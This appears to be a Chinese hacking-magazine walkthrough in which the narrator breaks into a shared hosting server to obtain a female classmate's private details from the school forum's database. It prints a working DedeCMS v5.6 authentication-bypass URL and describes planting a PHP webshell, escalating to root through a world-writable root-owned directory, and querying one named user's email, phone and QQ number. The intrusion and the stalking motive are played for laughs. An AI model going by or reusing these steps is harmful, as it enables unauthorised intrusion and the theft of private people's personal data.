查了一下 u***n.com 同 IP 的网站，结果发现这是一台虚拟主机，如图3所示。


接下来我就开始辛勤地工作了：对这些网站逐一进行测试，希望能够找到安全弱点拿到 webshell。功夫不负有心人，经过一番努力，发现 www.c***6.com 这个站点使用的是“dedecms v5.6”整站系统，并且后台目录是默认的“/dede/”。这个系统曾经爆出过漏洞，可以通过构造 URL 绕过验证进入后台。构造 URL 如下：

```
http://www.c***6.com/dede/login.php?dopost=login&validate=ABCD&userid=admin&pwd=admin&_POST[GLOBALS][cfg_dbhost]=127.0.0.1&_POST[GLOBALS][cfg_dbuser]=123&_POST[GLOBALS][cfg_dbpwd]=123456&_POST[GLOBALS][cfg_dbname]=admin
```

（注：利用这个漏洞首先需要在本机搭建一个 mysql 数据库，建立数据表和数据，并且允许远程连接；URL 中的“userid”要填写本机数据库表中的用户名，“pwd”要填写表中的密码，“127.0.0.1”是本机的 IP 地址，“123”是本机 mysql 的用户名，“123456”是本机 mysql 的密码。另外关于这个漏洞的原理，相信有一定基础的朋友们很容易就能看出，不懂的朋友可以自行搜索“dedecms v5.6 漏洞”。）

（此不再赘述）。就这样成功进入了 www.c***6.com 的后台，如图4所示。


“Dedecms v5.6”的后台拿 webshell 还是比较容易的，依次打开“模板”“标签源码管理”“增加一个新的标签”，然后把 PHP 木马的源码粘贴进去并保存，很容易就得到 webshell，如图5所示。


打开 webshell 后发现服务器的操作系统是“FreeBSD 8.1-RELEASE”，并且权限卡得很死，不能跳转到其他用户的目录，这样就没办法看到学校论坛的数据库了。我该怎么办呢？沉思片刻，用 scanport 这个小工具扫描了一下服务器开放的端口，希望能够发现一点有利用价值的东西。扫描结果如图6所示。


端口号为 8081 的那条结果引起了我的注意，因为一些虚拟主机为了方便用户管理自己的网站，会用 80 端口以外的端口。


8080 端口比较常见，通常用于提供一个管理平台。扫描出的 8081 和 8080 十分相近，也有可能是提供某种 Web 服务的。在浏览器中打开 `http://218.**.148:8081/`，发现的确是对外提供 Web 服务的，如图7所示。

根据经验，一般来讲虚拟主机管理平台出于管理的需要，通常该程序所在目录的权限要高于虚拟主机用户的目录权限。我用之前得到的 webshell 在服务器上仔细查找，终于找到了这个 8081 端口对应的绝对路径，并且惊喜地发现该目录是属于 root 的！如图8所示。


图8

请大家注意画线的“linux_expl”目录，右边的“0777”代表当前 webshell 对此目录是可读可写的，并且这个目录是属于 root 所有的。也就是说，如果上传一个 webshell 到“linux_expl”目录里面，它将继承此目录的 root 权限，也就可以完全控制这台服务器了。


图9

马上上传 webshell 到“linux_expl”目录，用 webshell 自带的命令执行功能执行 `whoami` 命令查询当前用户，结果不出所料，果然是 root，如图9所示。

既然拿到了最高权限，一切就变得简单顺利多了。我很快就在服务器上找到了学校论坛所在的目录，并且在论坛的数据库连接文件里找到了连接数据库的用户名和密码，如图10所示。

在 webshell 的“MYSQL Manager”里面，填入获得的用户名和密码，成功连接到了我们学校论坛的数据库，如图11所示。

找到论坛存放用户信息的表“pre_common_member”，执行命令 `SELECT * FROM pre_common_member where username='杨*珊'`（这条命令的意思是列出“pre_common_member”这个表里面用户名“杨*珊”的所有信息），结果如图12所示。


图10


图11


图12

就这样，经过不懈的努力，我终于得到了 MM 的 Email、手机号、QQ 号以及各种号……

结局是可悲的，MM 只对我说了一句话：人家已经有心上人啦！

小菜我：555~

（文章中涉及的相关工具本期光盘已收录）